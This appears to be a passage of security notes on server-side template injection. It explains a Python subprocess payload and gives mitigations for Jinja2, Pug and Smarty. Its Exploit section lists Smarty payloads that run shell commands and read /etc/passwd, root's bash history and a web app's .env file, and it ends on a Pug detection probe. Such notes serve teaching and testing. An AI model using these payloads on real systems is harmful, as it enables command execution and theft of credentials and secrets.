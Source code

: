 - `("subprocess")`: Uses `__import__` to import the `subprocess` module.
- `.check_output("ls")` : Runs the `ls` command and returns its output.

#### How to use `check_output`
```python
subprocess.check_output([command, arg1, arg2])
```

- **command**: A string that specifies the command to execute.
- **arg1, arg2, ...**: Additional arguments that should be passed to the command.
```python
subprocess.check_output(['ls', '-lah'])
```

## Mitigation
- **Sandboxing** is a security feature that restricts the execution of potentially harmful code within templates.
- **Input Sanitisation**: Escape or remove dangerous characters and strings that can be interpreted as code. 
### Jinja2
- **Sandbox mode**: Restrict template from accessing unsafe functions and atttributes
### Jade  (Pug)
- **Avoid Direct JavaScript Evaluation**: Avoid using Pug’s ability to evaluate JavaScript code within templates
### Smarty
- **Disable `{php}` Tags**: Ensure that `{php}` tags are disabled in Smarty configurations
- **Use Secure Handlers**:  If you must allow users to customise templates, provide a secure set of tags or modifiers that they can use

## Exploit

### PHP - Smarty

**Identify**
```php
{'Hello'|upper}  
{$smarty.version}
{system("ls")} 
{passthru('id')}
{shell_exec('id')}
{exec('id')}
```

**Read files**
```php
{system("cat file.txt")
{system('/bin/cat /etc/passwd')}
{system('/bin/cat /root/.bash_history')}
{system('/bin/cat /var/www/html/.env')}
```
### Node.js - Pug
**Identify**
```js
#{7*7}  
```

